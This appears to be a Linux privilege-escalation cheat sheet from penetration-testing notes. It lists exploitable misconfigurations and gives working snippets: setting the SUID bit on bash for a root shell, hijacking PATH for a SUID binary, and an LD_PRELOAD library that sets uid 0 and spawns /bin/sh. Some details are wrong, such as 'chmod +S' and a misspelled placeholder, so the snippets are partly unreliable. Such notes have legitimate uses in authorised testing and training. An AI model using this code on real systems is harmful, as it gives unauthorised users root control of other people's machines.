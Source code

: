 # Exploitation

Misconfigurations:

- You can execute an unsafe program as root, e.g. trough sudo or because it has the SUID bit set -> [gtfobins.github.io](https://gtfobins.github.io/)
- A sudoers rule allows to run a safe program, but `env_reset` is disabled -> [$LD_PRELOAD Exploitation]($ld_preload-exploitation)
- A SUID binary runs a program with relative path -> [$PATH Exploitation](#$path-exploitation)
- You can execute a program as root that is stored in a directory where you have write access -> [Root-owned Binary in User-owned Directory](#root-owned-binary-in-user-owned-directory)
- A program that runs as root executes a file that is writable by you.
- The system-wide `$PATH` environment variable contains a directory that you can write into.
- A privileged program loads a library from a location writable by you -> [Shared Object Hijacking](#shared-object-hijacking)
- A privileged program executes a file writable by you.
- Pythons `sys.path` contains a writable directory or `$PYTHONPATH` can be set/modified in a privileged context.
- A privileged user executes a command in the context of your user -> [TTY Pushback](#tty-pushback)
- Your current user context or a program you can execute has interesting capabilities -> see [False boundaries and arbitrary code execution](https://web.archive.org/web/20221105182023/http://forums.grsecurity.net/viewtopic.php?f=7&t=2522) for escalation paths

Got code execution as root, but can't get a stable shell?
Set the SUID flag on `bash`.

~~~ bash
chmod +S /bin/bash
bash -p
~~~

## $PATH Exploitation

~~~ bash
mkdir ./mypath/
cat << EOF > ./mypath/PROGAM_NAME
#!/bin/sh
id > /tmp/hacked.txt
EOF
export PATH="$PWD/mypath:$PATH"
/usr/local/bin/suid-binary
~~~

## $LD_PRELOAD Exploitation

`./exploit.c`:

~~~ c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/sh");
}
~~~
